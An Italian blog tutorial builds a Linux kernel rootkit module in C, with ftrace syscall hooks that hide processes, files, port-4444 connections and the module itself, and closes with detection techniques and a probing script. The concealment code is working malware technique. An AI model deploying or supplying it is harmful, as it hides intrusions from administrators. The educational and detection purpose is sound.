





// Il Tweet
Sezione 00. L'antefattoUso un Mac. Lo so, lo so. "Non sei un hacker se non usi Kali." Perche' evidentemente gli hacker non sono capaci di installarsi un tool quando gli serve, hanno bisogno di una distro piena di merda preinstallata. "Ma come fai senza Linux?" Lo sento da vent'anni. La risposta e' sempre la stessa: lo strumento e' irrilevante, conta quello che ci fai. Ma questa non e' la storia di oggi.
La storia e' questa. Una giornalista che conosco, brava, non tecnica, mi scrive su Twitter. "Ma il Mac e' come un PC?" Domanda legittima, da persona che non lavora con i sistemi. Non sa cos'e' macOS, non sa cos'e' un sistema operativo, non e' il suo mestiere. Le rispondo veloce, semplificando come fai quando parli con qualcuno che non e' del settore: "Fa' conto che e' tipo Linux."
Apriti cielo.
Nel giro di dieci minuti, sotto il tweet, arrivano i correttori. "LiNuX e' iL kErNeL, nOn e' Un SiStEmA oPeRaTiVo." "macOS non e' Linux, e' basato su Darwin/BSD." "Dovresti dire GNU/Linux." Uno dopo l'altro, tutti a ripetere la stessa frase letta in qualche forum nel 2009. Parlavano come se stessero insegnando qualcosa a un deficiente.
Il punto e': il 99,9% di quelli che scrivono "Linux e' il kernel" non hanno mai visto il kernel. Non sanno cosa fa, come funziona, dove sta, come ci si parla. Hanno imparato una frase e la ripetono come un mantra per sembrare competenti. E' il livello piu' basso della competenza tecnica: sapere il nome di una cosa senza sapere cos'e'.
La iena, che aveva letto il thread, mi guarda e dice: "Ti hanno fatto girare le scatole, eh?"
"No. Mi hanno dato un'idea per un articolo."
Volete parlare di kernel? Bene. Andiamo dentro il kernel. Scriviamo un modulo che ci si installa, hooka le syscall, fa sparire processi, file e connessioni di rete. Un rootkit. Da zero. In C. Sul kernel che "e' solo il kernel".
Vediamo quanti di quelli che correggono i tweet sanno fare questo.
Disclaimer serio. Tutto quello che segue va fatto in una VM isolata. Mai su un sistema di produzione, mai su una macchina che non e' tua, mai senza autorizzazione. Un rootkit kernel e' una delle cose piu' pericolose che puoi caricare su un sistema. Un bug = kernel panic. Un errore di pulizia = sistema instabile. Questo e' un laboratorio educativo. Trattalo come tale.
// Dentro il Kernel
Sezione 01. Dove vivono i moduliIl kernel Linux e' un monolite con supporto ai moduli. Un blob di codice che gira in ring 0, con accesso diretto a tutta la memoria, tutti i device, tutte le strutture dati del sistema. Ma ha un meccanismo per caricare codice a runtime senza ricompilare: i Loadable Kernel Modules (LKM).
Un LKM e' un file .ko che carichi con insmod. Appena caricato, il suo codice gira in kernel space. Stessi privilegi del kernel. Accesso a tutto. Nessun limite. Il kernel si fida ciecamente di quello che carichi. Se il modulo vuole leggere tutta la RAM, puo'. Se vuole modificare le strutture dati del kernel, puo'. Se vuole intercettare le syscall, puo'.
Nota su Secure Boot. Su macchine con Secure Boot attivo e module.sig_enforce=1, il kernel accetta solo moduli firmati con una chiave nel keyring di sistema. In quel caso, insmod su un modulo non firmato fallisce. Su una VM di lab senza Secure Boot (il default di VirtualBox e UTM), non c'e' questa restrizione. In produzione, Secure Boot e' una delle poche difese reali contro il caricamento di moduli malevoli.
Questa e' la base di un rootkit kernel: un LKM che si carica, hooka le funzioni del kernel, e riscrive la realta' che il sistema operativo mostra all'utente.
Partiamo dal minimo. Un modulo che si carica, stampa un messaggio, e si scarica.
| 1 | /* hello.c — il modulo kernel piu' semplice del mondo */ |
| 2 | #include <linux/module.h> |
| 3 | #include <linux/kernel.h> |
| 4 | |
| 5 | MODULE_LICENSE("GPL"); |
| 6 | |
| 7 | static int __init hello_init(void) { |
| 8 | pr_info("rootkit: sono nel kernel. ciao.\n"); |
| 9 | return 0; |
| 10 | } |
| 11 | |
| 12 | static void __exit hello_exit(void) { |
| 13 | pr_info("rootkit: esco dal kernel. arrivederci.\n"); |
| 14 | } |
| 15 | |
| 16 | module_init(hello_init); |
| 17 | module_exit(hello_exit); |
Otto righe di C. Un insmod. E sei nel kernel. Il messaggio appare in dmesg, il modulo appare in lsmod. Nessun permesso negato, nessun sandbox, nessuna domanda. Root puo' caricare qualsiasi cosa nel kernel, e il kernel esegue.
Adesso facciamo qualcosa di utile. Cioe' di pericoloso.
Setup della VM. Serve Ubuntu 22.04 o 24.04 LTS. Installa i prerequisiti con sudo apt install build-essential linux-headers-$(uname -r). Lo script setup_lab.sh nel repository fa tutto. Non farlo sulla tua macchina vera. Mai.
// Hookare il Kernel
Sezione 02. ftrace, il framework che ti tradiscePer nascondere qualcosa, devi intercettare le funzioni del kernel che lo mostrano. Quando ps elenca i processi, chiama la syscall getdents64 su /proc. Quando ls elenca i file, chiama getdents64 sulla directory. Quando netstat mostra le connessioni, legge /proc/net/tcp che e' generato da tcp4_seq_show().
Se intercetti queste funzioni e filtri l'output, il processo gira ma ps non lo vede. Il file esiste ma ls non lo mostra. La connessione e' attiva ma netstat non la trova.
Il metodo moderno per hookare le funzioni kernel si chiama ftrace. E qui c'e' l'ironia: ftrace e' un framework di tracing del kernel, progettato per il debug e il performance profiling. I developer del kernel l'hanno costruito per analizzare il sistema. Noi lo usiamo per sabotarlo.
Il problema: dal kernel 5.7+, kallsyms_lookup_name non e' piu' esportata. Serve per trovare l'indirizzo delle funzioni kernel. Senza di essa, non puoi hookare niente. Ma c'e' un trick.
| 1 | /* Trick: usa kprobe per trovare kallsyms_lookup_name */ |
| 2 | static int resolve_kallsyms(void) { |
| 3 | struct kprobe kp = { .symbol_name = "kallsyms_lookup_name" }; |
| 4 | int ret = register_kprobe(&kp); |
| 5 | if (ret < 0) return ret; |
| 6 | |
| 7 | ksym_lookup = (kallsyms_lookup_name_t)kp.addr; |
| 8 | unregister_kprobe(&kp); |
| 9 | return 0; |
| 10 | } |
Registri un kprobe sul simbolo. Il kernel ti da' l'indirizzo. Deregistri il kprobe. Una riga di codice e hai accesso a qualsiasi simbolo del kernel. Il fatto che questo funzioni e' gia' un statement su quanto sia sottile il confine tra debug e attacco.
Con kallsyms_lookup_name in mano, possiamo trovare qualsiasi funzione e hookarla con ftrace. Il meccanismo:
| 1 | /* |
| 2 | * ftrace_thunk — il cuore del meccanismo. |
| 3 | * Quando il kernel chiama la funzione hookata, ftrace ci notifica. |
| 4 | * Cambiamo il registro IP per saltare al nostro codice. |
| 5 | * within_module() impedisce la ricorsione infinita. |
| 6 | */ |
| 7 | static void notrace ftrace_thunk( |
| 8 | unsigned long ip, |
| 9 | unsigned long parent_ip, |
| 10 | struct ftrace_ops *ops, |
| 11 | struct ftrace_regs *fregs) |
| 12 | { |
| 13 | struct pt_regs *regs = ftrace_get_regs(fregs); |
| 14 | struct ftrace_hook *hook = container_of(ops, struct ftrace_hook, ops); |
| 15 | |
| 16 | /* Se la chiamata viene dal nostro modulo, lascia passare */ |
| 17 | if (!within_module(parent_ip, THIS_MODULE)) |
| 18 | regs->ip = (unsigned long)hook->function; |
| 19 | } |
regs->ip e' l'instruction pointer. Cambiarlo significa cambiare la prossima istruzione che la CPU esegue. Quando il kernel sta per chiamare getdents64, noi cambiamo l'IP e la CPU salta alla nostra versione. L'originale non viene mai eseguita. A meno che non la chiamiamo noi dall'interno del nostro hook.
La riga 17 e' la protezione da ricorsione. Quando la nostra hook_getdents64 chiama l'originale orig_getdents64, ftrace intercetta di nuovo. Ma within_module(parent_ip, THIS_MODULE) vede che la chiamata arriva dal nostro modulo e non redirige. L'originale viene eseguita normalmente. Senza questa riga, loop infinito, kernel panic, VM morta.
// Far Sparire un Processo
Sezione 03. L'arte di non essere vistiQuando ps aux elenca i processi, fa questo: apre /proc, chiama getdents64 per leggere le entry della directory, e per ogni entry numerica (che corrisponde a un PID) legge /proc/<PID>/status. Se rimuoviamo l'entry dalla risposta di getdents64, ps non sa che il processo esiste. Non lo cerca, non lo mostra.
Il buffer di getdents64 e' una sequenza di strutture linux_dirent64, ognuna con un nome e una lunghezza variabile. Per rimuovere una entry, ci sono due casi:
| 1 | static asmlinkage long hook_getdents64(const struct pt_regs *regs) { |
| 2 | struct linux_dirent64 *kdirent, *cur, *prev; |
| 3 | unsigned long offset = 0; |
| 4 | long ret; |
| 5 | |
| 6 | /* Chiama l'originale */ |
| 7 | ret = orig_getdents64(regs); |
| 8 | if (ret <= 0) return ret; |
| 9 | |
| 10 | /* Copia il buffer in kernel space */ |
| 11 | kdirent = kzalloc(ret, GFP_KERNEL); |
| 12 | if (!kdirent) return ret; |
| 13 | if (copy_from_user(kdirent, (void *)regs->si, ret)) { |
| 14 | kfree(kdirent); return ret; |
| 15 | } |
| 16 | |
| 17 | /* Scorri e filtra */ |
| 18 | while (offset < ret) { |
| 19 | cur = (void *)kdirent + offset; |
| 20 | if (should_hide_entry(cur->d_name)) { |
| 21 | /* Prima entry: sposta tutto indietro */ |
| 22 | if (cur == kdirent) { |
| 23 | ret -= cur->d_reclen; |
| 24 | memmove(kdirent, (void *)kdirent + cur->d_reclen, ret); |
| 25 | continue; |
| 26 | } |
| 27 | /* Entry intermedia: allarga la precedente */ |
| 28 | prev->d_reclen += cur->d_reclen; |
| 29 | } else { |
| 30 | prev = cur; |
| 31 | } |
| 32 | offset += cur->d_reclen; |
| 33 | } |
| 34 | |
| 35 | /* Copia il buffer filtrato in userspace */ |
| 36 | copy_to_user((void *)regs->si, kdirent, ret); |
| 37 | kfree(kdirent); |
| 38 | return ret; |
| 39 | } |
Il trucco e' alla riga 24. linux_dirent64 ha un campo d_reclen che dice quanto e' lunga quella entry. Chi legge il buffer salta da una entry all'altra sommando d_reclen. Se allarghiamo la entry precedente, la entry da nascondere viene "saltata". Non e' stata cancellata dalla memoria — e' ancora li'. Ma nessuno la legge piu'. Per il sistema, non esiste.
Il processo gira. Consuma CPU, scrive su disco, comunica in rete. Ma ps non lo vede, ls /proc/ | grep 6070 non lo trova. Pero' cat /proc/6070/status lo trova — perche' e' un accesso diretto per path, non passa per getdents64. E kill -0 6070 conferma: il processo c'e'. E' solo invisibile al listing.

Perche' kill -0 funziona? Perche' kill usa la syscall kill(2), non getdents64. Il nostro hook intercetta solo la lettura delle directory. Le syscall che operano direttamente per PID (kill, waitpid, ptrace) funzionano ancora. Un rootkit piu' sofisticato hookerebbe anche quelle. Per il lab, basta cosi'.
// Far Sparire un File
Sezione 04. Stesso hook, diversa magiaLo stesso hook su getdents64 funziona per i file. ls chiama getdents64 sulla directory, noi filtriamo i nomi che iniziano con il prefisso magico sp_hidden_.
| 1 | #define MAGIC_PREFIX "sp_hidden_" |
| 2 | |
| 3 | static bool should_hide_entry(const char *name) { |
| 4 | /* File con prefisso magico */ |
| 5 | if (strncmp(name, MAGIC_PREFIX, strlen(MAGIC_PREFIX)) == 0) |
| 6 | return true; |
| 7 | |
| 8 | /* PID target in /proc */ |
| 9 | if (hidden_pid > 0) { |
| 10 | char pid_str[16]; |
| 11 | snprintf(pid_str, sizeof(pid_str), "%d", hidden_pid); |
| 12 | if (strcmp(name, pid_str) == 0) |
| 13 | return true; |
| 14 | } |
| 15 | |
| 16 | return false; |
| 17 | } |
Una funzione, due usi. Nasconde processi e file con lo stesso meccanismo. Il bello di hookare a livello di syscall: non importa cosa c'e' sopra. Bash, Python, Go, Rust — tutti passano per getdents64. Tutti vedono la stessa bugia.
ls non lo vede. find non lo trova. Ma cat funziona perfettamente, perche' opera per path diretto, non tramite listing di directory. Il file e' li. E' solo che nessuno sa che c'e', a meno che non conosca il nome esatto.

// Far Sparire una Connessione
Sezione 05. Il filo invisibilenetstat e ss leggono /proc/net/tcp. Quel file e' generato dalla funzione kernel tcp4_seq_show(). Per ogni socket TCP, la funzione scrive una riga nel file. Se la hookiamo e saltiamo le righe con la nostra porta, la connessione scompare.
| 1 | #define MAGIC_PORT 4444 |
| 2 | |
| 3 | static asmlinkage int hook_tcp4_seq_show( |
| 4 | struct seq_file *seq, void *v) |
| 5 | { |
| 6 | struct sock *sk; |
| 7 | |
| 8 | if (v == SEQ_START_TOKEN) |
| 9 | return orig_tcp4_seq_show(seq, v); |
| 10 | |
| 11 | sk = (struct sock *)v; |
| 12 | if (sk->sk_num == MAGIC_PORT) |
| 13 | return 0; /* Salta: la connessione scompare */ |
| 14 | if (ntohs(sk->sk_dport) == MAGIC_PORT) |
| 15 | return 0; |
| 16 | |
| 17 | return orig_tcp4_seq_show(seq, v); |
| 18 | } |
Cinque righe di logica. Riga 12: se la porta sorgente e' 4444, ritorna 0 (nessun output). Riga 14: se la porta destinazione e' 4444, stessa cosa. Per tutto il resto, chiama l'originale. ss e netstat non vedono niente sulla porta 4444. Ma la connessione e' attiva, i dati passano, il C2 comunica.
La porta 631 (CUPS, il servizio di stampa)? Visibile in netstat. Il nostro listener sulla 4444? Invisibile. Ma se ci connetti, risponde. Un attaccante potrebbe avere una reverse shell attiva su quella porta e l'admin non la vedrebbe mai con netstat.
Limitazione reale. ss nelle versioni recenti puo' usare NETLINK_INET_DIAG invece di leggere /proc/net/tcp. In quel caso, il nostro hook su tcp4_seq_show non basta: la connessione sarebbe visibile via netlink. Un rootkit completo dovrebbe hookare anche inet_diag_dump o il handler netlink corrispondente. Per il lab, il punto concettuale e' lo stesso: intercetti la funzione che genera l'output, e l'output cambia.

// Far Sparire Se Stesso
Sezione 06. Il fantasma nel kernelIl modulo e' caricato, le hook sono attive, i processi sono nascosti. Ma c'e' un problema: lsmod mostra il nostro modulo. Un admin che fa un check veloce lo vede subito.
Il kernel mantiene una linked list doppiamente concatenata di tutti i moduli caricati. lsmod la legge. Per scomparire, basta rimuovere il nostro nodo dalla lista.
| 1 | static struct list_head *saved_mod_list; |
| 2 | |
| 3 | static void hide_module(void) { |
| 4 | saved_mod_list = THIS_MODULE->list.prev; |
| 5 | list_del(&THIS_MODULE->list); |
| 6 | } |
| 7 | |
| 8 | static void show_module(void) { |
| 9 | list_add(&THIS_MODULE->list, saved_mod_list); |
| 10 | } |
Due righe. list_del rimuove il nodo. list_add lo reinserisce. Il modulo resta in memoria, il codice gira, le hook sono attive. Ma per lsmod, per /sys/module/, per /proc/modules, il modulo non esiste.

Il rootkit e' invisibile da lsmod. Nessun processo visibile, nessun file con il prefisso magico, nessuna connessione sulla porta 4444 in netstat, nessun modulo nella lista. Ma /proc/sp_rootkit conferma: tutto gira, tutto e' attivo, module_hidden: yes. Per un admin che usa gli strumenti standard, il sistema e' pulito. Ma sotto la superficie, il kernel sta mentendo su tutto.
Attenzione: una volta nascosto, rmmod rootkit non funziona piu' — il kernel non lo trova. Per rimuoverlo: echo "unhide" > /proc/sp_rootkit e poi rmmod. Se nascondi anche l'entry /proc/sp_rootkit, l'unico modo e' riavviare. Motivo per cui facciamo tutto in VM.
// Il Detective
Sezione 07. Come trovare quello che non c'e'Adesso ribaltiamo la prospettiva. Sei l'admin. Il sistema sembra pulito. Come trovi un rootkit kernel?
La risposta e': non con gli strumenti normali. Il rootkit controlla quello che gli strumenti normali vedono. Devi andare a un livello piu' basso, o cercare le inconsistenze.
| Tecnica | Cosa cerca | Perche' funziona |
|---|---|---|
| ftrace enabled_functions | Hook attivi su syscall | Il rootkit usa ftrace, e ftrace tiene traccia di cosa e' hookato. Il traditore tradisce il traditore. |
| /proc/kallsyms vs lsmod | Moduli nascosti | list_del rimuove il modulo dalla lista dei moduli, ma i suoi simboli restano in /proc/kallsyms. Discrepanza = rootkit. |
| Porte aperte vs ss/netstat | Connessioni nascoste | Prova a connetterti su porte sospette. Se la connessione riesce ma ss non la mostra, qualcuno sta mentendo. |
| Memory forensics | Codice iniettato nel kernel | Un dump della RAM con LiME + analisi con Volatility trova tutto: moduli nascosti, hook, strutture modificate. |
Il check piu' devastante e' il primo: /sys/kernel/debug/tracing/enabled_functions. Questo file elenca tutte le funzioni kernel con un hook ftrace attivo. Il nostro rootkit usa ftrace per hookare getdents64 e tcp4_seq_show. Queste funzioni appariranno nella lista. Il rootkit non puo' nascondersi da ftrace perche' usa ftrace.
Il secondo check: /proc/kallsyms contiene tutti i simboli del kernel, compresi quelli dei moduli. list_del rimuove il modulo dalla lista dei moduli, ma non rimuove i simboli. Se cerchi "[rootkit]" in kallsyms, lo trovi anche se lsmod non lo mostra.
Il modulo e' nascosto da lsmod ma i suoi simboli sono in kallsyms. Discrepanza. Game over.
Lo script detector.sh nel lab automatizza tutti questi check:
| 1 | # Check 1: hook ftrace su syscall |
| 2 | grep "sys_getdents\|tcp.*seq_show" \ |
| 3 | /sys/kernel/debug/tracing/enabled_functions |
| 4 | |
| 5 | # Check 2: moduli in kallsyms ma non in lsmod |
| 6 | LSMOD=$(lsmod | awk 'NR>1 {print $1}') |
| 7 | KALLSYMS=$(awk '{print $3}' /proc/kallsyms | grep '\[' | sort -u) |
| 8 | # Se un modulo e' in kallsyms ma non in lsmod: nascosto |
| 9 | |
| 10 | # Check 3: porte aperte ma non visibili |
| 11 | for PORT in 4444 5555 31337; do |
| 12 | if timeout 1 bash -c "echo > /dev/tcp/127.0.0.1/$PORT" 2>/dev/null; then |
| 13 | ss -tlnH | grep ":$PORT" || echo "NASCOSTA: porta $PORT" |
| 14 | fi |
| 15 | done |

Il paradosso del rootkit ftrace. Un rootkit piu' avanzato non userebbe ftrace ma modificherebbe direttamente le strutture kernel in memoria (inline hooking, modifiche alla syscall table via write_cr0). Sarebbe piu' difficile da trovare. Ma anche piu' fragile: ogni aggiornamento del kernel potrebbe cambiare gli offset e crashare il sistema. La sicurezza non e' binaria. E' sempre un trade-off tra stealth e stabilita'.
// Il Lab Completo
Sezione 08. Dall'installazione alla detectionTutto il codice e' nel repository. Ecco la procedura dall'inizio alla fine.
Gli script del lab. rootkit.c: il modulo completo con tutte le funzionalita'. Makefile: compila il modulo. setup_lab.sh: installa i prerequisiti. test_rootkit.sh: testa processo, file, connessione e modulo. detector.sh: cerca il rootkit. Tutto nella cartella scripts/il-processo-che-non-esiste su GitHub.
Per il sistema operativo, non esistono."
"Linux e' il kernel." Si'. E il kernel e' la cosa che decide cosa esiste e cosa no. Quando ci carichi un modulo, sei tu a decidere. L'admin guarda ps, ls, netstat e vede un sistema pulito. Ma il sistema pulito e' una bugia che il kernel sta raccontando. La prossima volta che qualcuno ti corregge su Twitter con "Linux e' il kernel", chiedigli se ha mai scritto un modulo per quel kernel. La risposta la conosci gia'.
Signal Pirate